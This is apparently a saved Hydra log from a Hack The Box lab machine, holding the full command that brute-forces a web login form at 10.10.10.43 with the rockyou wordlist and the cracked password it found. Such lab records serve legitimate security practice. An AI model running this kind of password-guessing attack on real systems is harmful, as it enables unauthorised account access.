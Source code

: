 # Hydra v9.3 run at 2022-05-06 17:20:37 on 10.10.10.43 http-post-form (hydra -l none -P /usr/share/wordlists/rockyou.txt -e nsr -t 10 -o /HTB-boxes/Ninevah/2-enum/http/hydra_https_ip.md 10.10.10.43 http-post-form /db/index.php:password=^PASS^&login=Log+In&proc_login=true:Incorrect password.)
[443][http-post-form] host: 10.10.10.43   login: none   password: password123
